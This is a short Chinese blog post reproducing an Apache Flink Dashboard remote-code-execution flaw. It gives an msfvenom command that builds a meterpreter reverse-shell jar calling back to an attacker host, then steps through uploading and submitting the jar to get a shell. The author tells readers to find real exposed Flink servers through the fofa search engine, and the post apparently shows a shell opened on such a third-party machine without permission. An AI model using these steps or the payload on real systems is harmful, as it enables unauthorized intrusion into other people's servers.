 ```yaml
---
layout:     post
title:    pache Flink RCE 复现
subtitle:   pache Flink RCE 复现
date:       2019-11-14
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 渗透测试
    - 漏洞复现
---
```

# Apache Flink RCE 复现

## 简介
Flink核心是一个流式的数据流执行引擎，其针对数据流的分布式计算提供了数据分布、数据通信以及容错机制等功能。攻击者可直接在Apache Flink Dashboard页面中上传任意jar包，从而达到远程代码执行的目的。  
## 复现  
先用msf生成jar包：  
```
msfvenom -p java/meterpreter/reverse_tcp LHOST=1.1.1.1 LPORT=4444 -f jar > nakumura.jar
```
随便上fofa上找几个测试下，挺多的。  
![191114_1](/img/191114_fofa.png)  
然后点开一个，点 submit new job。  
![191114_2](/img/191114_uploadjar.png)  
emmm，已经被人玩坏了，点下add new+，上传jar包,然后submit一下就可以执行。  
![191114_3](/img/191114_submit.png)  
执行前记得先开启msf的监听。  
submit一下,返回。  
![191114_4](/img/191114_meterpreter.png)  

## 修复方式  
等官网出补丁或者新版本后及时更新